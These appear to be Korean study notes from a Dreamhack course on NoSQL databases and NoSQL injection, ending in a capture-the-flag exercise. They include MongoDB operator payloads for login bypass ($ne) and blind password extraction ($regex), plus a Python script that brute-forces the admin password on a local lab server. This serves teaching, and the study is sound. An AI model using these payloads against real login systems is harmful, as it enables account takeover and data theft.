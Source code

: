# dreamhack

- Non-Relational DBMS(비 관계형 데이터베이스)
    - RDBMS는 스키마를 정의하고 해당 규격에 맞는 데이터를 2차원 테이블 형태로 저장
    - 관계형 데이터베이스 문제점 SQL Injection, NoSQL또한 이용자의 입력값을 통해 동적으로 쿼리를 생성해 데이터를 저장하기 때문에 이와 같은 문제점 발생 가능
    - NoSQL 유래
        - Not Only SQL은 SQL을 사용하지 않고 데이터를 다룰 수 있다는 의미
- Mongo DB
    - MongDB는 JSON 형태인 도큐먼트(Document)를 저장하며, 다음과 같은 특징
    1. 스키마를 따로 저으이하지 않아 각 컬렉션(Collection)에 대한 정의가 필요하지 않다.
    2. JSON 형식으로 쿼리 작성
    3. _id 필드가 Primary Key 역할
    - 컬렉션(Collection) : 컬렉션은 데이터베이스의 하위에 속하는 개념
- MongoDB 연산자
    - Comparison
    - |Name|Description|
        |-|-|
        |$eq|equal|
        |$in|in|
        |$ne|not equal|
        |$nin|not in|
    - Logical
    - |Name|Description|
        |$and|논리적 AND, 각각의 쿼리를 모두 만족하는 문서가 반환|
        |$not|쿼리 식과 일치하지 않는 문서를 반환|
        |$nor|논리적 NOR|
        |$or|논리적 OR|
    - Element
    - |Name|Description|
        |-|-|
        |$exists|지정된 필드가 있는 문서를 찾기|
        |$type|지정된 필드가 지정된 유형인 문서를 선택|
    - Evaluation
- 기본 문법
    - SELECT(SQL)
        - MongoDB(find)
    - INSERT(SQL)
        - MongoDB(insertOne)
    - DELETE(SQL)
        - MongoDB(remove)
    - UPDATE(SQL)
        - MongoDB(updateOne)
- Redis
    - Redis는 키-값(Key-Value)의 쌍을 가진 데이터를 저장
- 데이터 조회 및 조작 명령어
    - GET(데이터 조회), MGET(여러 데이터를 조회), SET(새로운 데이터 추가), MSET(여러 데이터를 추가), DEL(데이터 삭제), EXISTS(데이터 유무 확인), INCR(데이터 값에 1 더함), DECR(데이터 값에 1 뺌)
- 관리 명령어
    - INFO(DBMS 정보 조회), CONFIG GET(설정 조회), CONFIG SET(새로운 설정을 입력)
- CouchDB
    - POST(새로운 레코드), GET(레코드 조회), PUT(레코드 업데이트), DELETE(레코드 삭제)
    - 특수 구성 요소
    - SERVER
        - /(인스턴스에 대한 메타 정보), /_all_dbs(데이터베이스 목록), /_utils(관리자페이지로 이동)
    - Database
        - /db(정보를 반환),/{db}/_all_docs(모든 도큐먼트를 반환), /{db}/_find(JSON 쿼리에 해당하는 모든 도큐먼트)
# 키워드
- 비관계형 데이터베이스(NoSQL)
    - RDBMS와 달리 SQL을 사용하지 않는다
- 컬렉션(Collection)
    - 데이터베이스의 하위에 속하는 개념

# ServerSide: NoSQL Injection
- MongoDB
## NoSQL Injection
- SQL : 문자열, 정수, 날짜, 실수 등
- MongoDB : 이 외에도 오브젝트, 배열 타입 등
    - ex 
        - req.query의 타입이 문자열로 지정되어 있지 않아, 문자열 외의 타입입력
- NoSQL Injection
    - ex
        - 이용자의 입력값에 대해 타입을 검증하지 않기 때문에 오브젝트 타입의 값을 입력
        - 오브젝트 타입의 값을 입력가능하다면 -> 연산자를 사용
            -  $ne 연산자는 not equal의 약자로, 입력한 데이터와 일치하지 않는 데이터를 반환
            -  공격자는 계정 정보를 모르더라도 다음과 같이 입력해 해당 정보
            - {"uid": "admin", "upw": {"$ne":""}}
- Blind NoSQL Injection
    - Blind SQL Injection과 같이 참/거짓 결과
    -  $regex, $where 연산자를 사용해 Blind NoSQL Injection
        - |Name|Description|
            |-|-|
            |$expr|쿼리 언어 내에서 집계 식을 사용할 수 있습니다.|
            |$regex|지정된 정규식과 일치하는 문서를 선택합니다.|
            |$text|지정된 텍스트를 검색합니다.|
            |$where|JavaScript 표현식을 만족하는 문서와 일치합니다.|
        - substring
            - upw의 첫 글자를 비교해 데이터를 알아내는 쿼리
        - Sleep 함수를 통한 Time based Injection
            - 지연 시간을 통해 참/거짓 결과
            - upw의 첫 글자를 비교하고, 해당 표현식이 참을 반환할 때 sleep 함수
        - Error based Injection
            - 에러를 기반으로 데이터를 알아내는 기법으로, 올바르지 않은 문법을 입력해 고의로 에러를 발생
    - 비밀번호 길이 획득
        - {"uid": "admin", "upw": {"$regex":".{5}"}}
    - 비밀번호 획득
        - $regex 연산자를 사용할 수 있습니다. 정규식 중 ^는 입력의 시작부분을 나타냅니다. 해당 문자를 사용해 비밀번호를 한 글자씩
        - {"uid": "admin", "upw": {"$regex":"^a"}}
## 키워드
- NoSQL injection: 요청 구문에 이용자의 입력 값을 삽입해 이용자가 원하는 요청
- Blind NoSQL Injection: 데이터 조회 후 결과를 직접적으로 확인할 수 없는 경우 사용

- Exercise: NoSQL Injection

## 웹 서비스 분석
- 엔드 포인트: /login
    - /login 페이지 요청 시 실행되는 코드
    - 이용자가 쿼리로 전달한 uid와 upw로 데이터베이스를 검색하고, 찾아낸 이용자의 정보를 반환
    - 이용자의 요청에 포함된 쿼리를 filter함수로 필터링합니다. 해당 함수는 admin, dh, admi라는 문자열이 있을 때 true를 반환

## 취약점 분석
- Query & Type
    - 이용자가 전달한 쿼리의 값과 타입을 반환하는 코드입니다. 아래의 요청 결과를 보면, string외에 다양한 형태의 object도 쿼리로 전달될 수 있음

## 익스플로잇
- 익스플로잇
    - /login에서는 로그인에 성공했을 때 이용자의 uid만 출력
    - Blind NoSQL Injection을 통해 admin의 upw를 획득
1. Blind NoSQL Injection Payload 생성
    - $regex연산을 사용하면 정규표현식을 이용해 데이터를 검색
    - upw가 일치하는 경우 uid, 아닌 경우 undefined 문자열이 출력
2. filter 우회
    - 정규표현식에서 임의 문자를 의미하는 .을 이용하여 쉽게 우회
3. Exploit Code 작성
    - 정규표현식을 통해 한 글자씩 알아내야 하므로, 여러 번 쿼리를 전달
    ```py
        import requests, string

        HOST = 'http://localhost'
        ALPHANUMERIC = string.digits + string.ascii_letters
        SUCCESS = 'admin'

        flag = ''

        for i in range(32):
            for ch in ALPHANUMERIC:
                response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
                if response.text == SUCCESS:
                    flag += ch
                    break
            
            print(f'FLAG: DH{{{flag}}}')
    ```
# 키워드 
- NoSQL Injection: NoSQL DBMS가 악의적인 쿼리를 실행하게 하는 공격 기법.